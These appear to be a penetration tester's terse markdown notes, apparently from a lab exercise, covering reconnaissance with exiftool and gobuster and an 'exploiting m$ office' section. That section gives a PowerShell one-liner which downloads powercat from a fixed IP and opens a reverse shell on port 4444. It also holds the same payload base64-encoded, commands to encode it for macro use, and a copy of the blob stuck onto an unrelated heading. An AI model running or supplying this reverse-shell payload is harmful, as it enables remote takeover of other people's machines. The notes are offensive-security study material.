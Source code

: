 ## info gathering
exiftool file.txt -> get file info

gobuster dir -u 192.168.214.197 -w /usr/share/wordlists/dirb/common.txt -x pdf

find all the pdfs on a server

## finger printingSUVYKE5ldy1PYmplY3QgU3lzdGVtLk5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCdodHRw
Oi8vMTkyLjE2OC40NS4yMTcvcG93ZXJjYXQucHMxJyk7cG93ZXJjYXQgLWMgMTkyLjE2OC40NS4y
MTcgLXAgNDQ0NCAtZSBwb3dlcnNoZWxsCg==


## exploiting m$ office
SUVYKE5ldy1PYmplY3QgU3lzdGVtLk5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCdodHRw
Oi8vMTkyLjE2OC40NS4yMTcvcG93ZXJjYXQucHMxJyk7cG93ZXJjYXQgLWMgMTkyLjE2OC40NS4y
MTcgLXAgNDQ0NCAtZSBwb3dlcnNoZWxsCg==

IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.217/powercat.ps1');powercat -c 192.168.45.217 -p 4444 -e powershell


pwsh -c '[Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes("IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.217/powercat.ps1');powercat -c 192.168.45.217 -p 4444 -e powershell"))'

pwsh -c "[Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes(\"IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.217/powercat.ps1');powercat -c 192.168.45.217 -p 4444 -e powershell\"))"
